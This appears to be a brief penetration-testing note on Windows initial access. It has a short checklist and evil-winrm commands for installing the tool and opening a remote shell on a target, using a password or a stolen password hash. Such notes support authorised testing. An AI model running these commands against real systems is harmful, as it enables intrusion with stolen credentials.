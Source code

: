 # windows - initial access

## checklist

* Vulnerable, external facing services?
* Any credentials leaked somewhere?
* etc.

## evil-winrm

```bash
sudo gem install evil-winrm
```

```bash
evil-winrm -u USERNAME -p PASSWORD -i TARGET_IP
```

```
evil-winrm -u USERNAME -H HASH -i TARGET_IP
```

